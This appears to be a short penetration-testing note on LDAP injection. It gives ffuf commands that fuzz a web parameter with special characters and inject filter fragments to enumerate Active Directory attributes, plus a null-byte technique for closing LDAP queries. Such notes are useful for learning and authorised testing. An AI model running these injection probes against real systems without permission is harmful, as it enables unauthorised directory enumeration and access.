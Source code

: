# LDAP Injection

## Indicator

```powershell
ffuf -w /usr/share/seclists/Fuzzing/special-chars.txt -u 'http://example.com?param=FUZZ'
```

**Output:**

```
*                      [Status: 200, ...]
(                      [Status: 200, ...]
\                      [Status: 200, ...]
)                      [Status: 200, ...]
```

## Methodology

End with null byte (`%00`), add `)` progressively to understand the context of the query

IppSec's video [here](https://youtube.com/watch?v=51JQg202csw&t=885)

Null byte in ldap is the equivalent to a comment in SQL injection, terminating the statement

Example query

```
(&
	(name=technician)
)
```

Adding the null byte wipes out everything after it, so applying our methodology in this example reveals that we need to add 2 `)` to get expected output and not break the site:

```
(&
	(name=technician))%00
```

We can now fuzz attributes with the following example

```powershell
ffuf -w /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt -u 'http://$IP/vulnerable.php?param=val)(FUZZ%3d*' -ms 418
```

We match size of 418 cause this is output size matches where the website doesnt break and provides expected output.

